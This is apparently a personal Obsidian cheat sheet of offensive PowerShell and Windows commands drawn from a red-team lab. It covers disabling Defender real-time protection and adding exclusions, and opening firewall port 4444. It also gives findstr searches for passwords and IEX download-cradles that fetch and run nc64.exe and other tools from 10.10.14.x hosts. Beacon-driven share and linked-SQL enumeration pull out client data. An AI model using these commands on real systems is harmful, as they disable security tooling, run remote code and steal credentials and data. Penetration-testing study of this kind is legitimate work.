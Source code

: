 net ---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---

Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[03 - Content/powershell]]  
___

## Description:  

### Useful Commands

```
whoami /ALL


```

### pscp
For moving files

```
C:\> pscp src des
#push
C:\> pscp root@kail:/path/to/file C:\Path\
#pull
C:\> pscp C:\Path\to\file root@kali:/path/
# -r is for folders
```

### Disable defender

^aec913

disable Defender's Real-time protection (This script contains malicious content and has been blocked by your antivirus software.)

`Set-MpPreference -DisableRealtimeMonitoring $true

`Get-MpPreference` can be used to list the current exclusions.  This can be done locally, or remotely using `remote-exec`.

```
beacon> remote-exec winrm dc-2 Get-MpPreference | select Exclusion*

ExclusionExtension : 
ExclusionIpAddress : 
ExclusionPath : {C:\Shares\software}
ExclusionProcess :
```

If the exclusions are configured via GPO and you can find the corresponding Registry.pol file, you can read them with `Parse-PolFile`.

```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```

In a pinch, you can even add your own exclusions.
```
Set-MpPreference -ExclusionPath "<path>"
```

Or look for ones that already exist
`powershell $(get-MpPreference).ExclusionPath


### Windows error codes

```
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```

### Windows Firewalls rules

This can be done with the built-in `netsh` utility. To add an allow rule:
```
netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
```

To remove that rule:
```
netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```


### List of services

```
wmic service list brief
```

### Look for Passwords

```
finstr /si password *.txt 2> nul | more 

Also consider *.xml, *.ini, *.*

findstr /spin “password” *.* 2> nul | more
```

### web requests
```
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8:80/beRoot.py','beRoot.py')"

echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.12:8000/nc64.exe') | powershell -noprofile -

powershell –c "IEX(New-Object NET.WebClient).downloadString('http://10.10.14.45:1234/required_tool’)”

curl.exe -o tool [http://10.10.14.45:1234/required_tool](http://10.10.14.45:1234/required_tool)

Invoke-WebRequest [http://10.10.14.45:1234/required_tool](http://10.10.14.45:1234/required_tool) -O tool

```

### Powershell Encoding

```
From bash:
echo -n 'COMMAND' | iconv -f UTF8 -t UTF16LE| base64 -w 0
 
powershell -e ‘COMMAND’
```

### Find File Shares

`Find-DomainShare` will find SMB shares in a domain and `-CheckShareAccess` will only display those that the executing principal has access to.

```
beacon> powershell Find-DomainShare -ComputerDomain cyberbotic.io -CheckShareAccess

Name     Type Remark              ComputerName      
----     ---- ------              ------------      
data$       0                     dc-1.cyberbotic.io

beacon> ls \\dc-1.cyberbotic.io\data$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 17kb     fil     03/25/2021 12:54:11   63ec08038c04ac60dab340ee9569e690dataMar-25-2021.xlsx
 214kb    fil     03/25/2021 13:02:53   Apple iPhone 8.ai
 1mb      fil     03/25/2021 13:02:55   Boeing 787-8 DreamLiner Air Canada.ai
 540kb    fil     03/25/2021 13:02:54   Caterpillar 345D L.ai
 829kb    fil     03/25/2021 13:02:55   Ducati 1098R (2011).ai
 895kb    fil     03/25/2021 13:02:55   Volkswagen Caddy Maxi (2020).ai
```

### Find Databases
We reviewed multiple methods for executing SQL queries in the **MS SQL Servers** section, but they would not scale well for searching across dozens of instances. PowerUpSQL provides some additional cmdlets designed for data searching and extraction.

One such cmdlet is `Get-SQLColumnSampleDataThreaded`, which can search one or more instances for databases that contain particular keywords in the column names.

```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column      Sample         
--------                     -------- ------      ------         
srv-1.dev.cyberbotic.io,1433 master   ProjectName Mild Sun       
srv-1.dev.cyberbotic.io,1433 master   ProjectName Warm Venus     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Grim Lyric     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Precious Castle
srv-1.dev.cyberbotic.io,1433 master   ProjectName Fine Devil
```

This can only search the instances you have direct access to, it won't traverse any SQL links. To search over the links use `Get-SQLQuery`.

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_dev      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          spt_values            VIEW      
master        dbo          spt_monitor           BASE TABLE
master        dbo          MSreplication_options BASE TABLE
master        dbo          VIPClients            BASE TABLE
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns')"

column_name
-----------
City
Name
OrgNumber
Street
VIPClientsID
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 OrgNumber from master.dbo.VIPClients')"

OrgNumber  
---------  
65618655299
69838663099
12289506999
73723428599
51766460299
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (04:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
